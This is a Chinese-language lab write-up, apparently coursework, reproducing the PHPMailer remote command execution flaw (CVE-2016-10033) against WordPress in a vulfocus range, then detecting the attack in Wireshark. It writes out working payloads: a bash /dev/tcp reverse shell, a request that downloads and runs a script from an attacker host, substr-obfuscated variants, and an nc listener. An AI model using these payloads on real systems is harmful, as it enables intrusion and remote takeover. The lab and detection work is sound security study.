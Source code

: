 # wordpress漏洞
## 漏洞复现
### 靶场搭建
网络结构搭建后，在vulfocus中启动靶场环境

![](image/exp2/进入wordpress.png)
经试验第二个网址可以成功访问wordpress页面

![](image/exp2/wordpress页面.png)
使用wordpress的扫描wpscan工具对该网页进行扫描，可以得知该网页的wordpress版本号为4.

![](image/exp2/wpscan扫描版本.png)
![](image/exp2/版本号.png)

经过查询，可以得知在4.7.1版本之前WordPress 使用 PHPMailer 组件向用户发送邮件。PHPMailer(版本 < 5.2.18)存在远程命令执行漏洞，攻击者只需巧妙地构造出一个恶意邮箱地址，即可写入任意文件，造成远程命令执行的危害。漏洞编号为CVE-2016-10033

使用msf工具搜索CVE-2016-10033漏洞的相关信息
![1747587353915](image/exp2/1747587353915.png)发现漏洞可以使用

经过查询，得知漏洞页面是在用户忘记密码，获取新密码的页面，输入用户名后即发送邮件
![1747587598275](image/exp2/1747587598275.png)
使用burp suite和proxy进行设置，开启抓包
![1747587714955](image/exp2/1747587714955.png)
![1747587788327](image/exp2/1747587788327.png)
输入admin用户名后，点击get new password
![1747587840813](image/exp2/1747587840813.png)
之后查看burpsuite，找到lostpassword的相关包
![1747587945579](image/exp2/1747587945579.png)
点击send to repeater之后即可更改指令
![1747588054221](image/exp2/1747588054221.png)
![1747588153843](image/exp2/1747588153843.png)
接下来要开始构建payload，但有一些需要注意的地方执行的命令不能包含大量特殊字符，如 :、引号等。命令会被转换成小写字母  命令需要使用绝对路径  需要知道某一个存在的用户的用户名

接下来在攻击机构建一个cmd.sh的脚本，攻击机ip为192.168.37.5，脚本内容为
`bash -i >& /dev/tcp/192.168.37.5/9999 0>&1`
端口号为9999
payload:
`aa(any -froot@localhost -be ${run{/usr/bin/wget --output-document /tmp/rce 192.168.157.137/cmd.sh}} null)`
执行反弹shell
`aa(any -froot@localhost -be ${run{/bin/bash /tmp/rce}} null)`
两个payload中的空格与/需要进行替换，经过查询后，将两个payload进行转换
`aa(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}wget${substr{10}{1}{$tod_log}}--output-document${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}rce${substr{10}{1}{$tod_log}}192.168.157.137${substr{0}{1}{$spool_directory}}cmd.sh}} null) `

`aa(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}bash${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}rce}} null)`
首先在攻击机上启用http服务，默认端口为80
![1747588713014](image/exp2/1747588713014.png)
然后执行第一个payload，在靶机上下载cmd.sh并改为rce
![1747588795093](image/exp2/1747588795093.png)
观察攻击机的反馈提示，返回码为200，即传输成功
![1747588897461](image/exp2/1747588897461.png)
接着在攻击机上，对端口9999，进行流量检测
`nc -lvnp 9999`
![1747588969751](image/exp2/1747588969751.png)
接着执行下一个payload，执行反弹shell
![1747589032570](image/exp2/1747589032570.png)
发现成功执行了反弹shell，使用命令ls /tmp即可成功获得flag，成功夺旗，标志着漏洞复现成功
![1747589184964](image/exp2/1747589184964.png)
## CVE-2016-10033漏洞利用检测
用tcpdump对网卡eth1进行流量检测，并再次进行攻击，将抓包的内容保存到capture.pcap,重复攻击流程后终止抓包
![1747589325437](image/exp2/1747589325437.png)
在wireshark中对capture.pcap的流量进行筛选，筛选条件为http，并试图从中找出可疑的数据包
发现有几个可疑的数据包，通过追踪http流进行进一步分析：

![1747589628905](image/exp2/1747589628905.png)
追踪http流后发现了相关的指令和返回的数据包

payload1![1747589708355](image/exp2/1747589708355.png)
payload2![1747589731849](image/exp2/1747589731849.png)
## 遇到的问题
#### 1.登录vulfocus时显示服务器内部错误，查询相关资料后发现是redis服务启动出现了问题
![1747589893173](image/exp2/1747589893173.png)
![1747589919360](image/exp2/1747589919360.png)

进入容器后输入`redis-server`，再次访问vulfocus并进行登录，发现可以正常登录
#### 2.burp suite使用相关

yakit在使用中，对于发出的请求包有着严格的要求，导致请求包格式稍有差错就会发不出去，因此再搜索解决办法后决定使用burpsuite进行请求包发送的相关工作。

下载后进行设置，在设置中添加127.0.0.1：82，并在proxy中进行同步设置，使得流量流经burp suite，经过实践后发现使用burpsuite可以成功进行抓包并且进行请求包的发送及responce的收取
![1747590971305](image/exp2/1747590971305.png)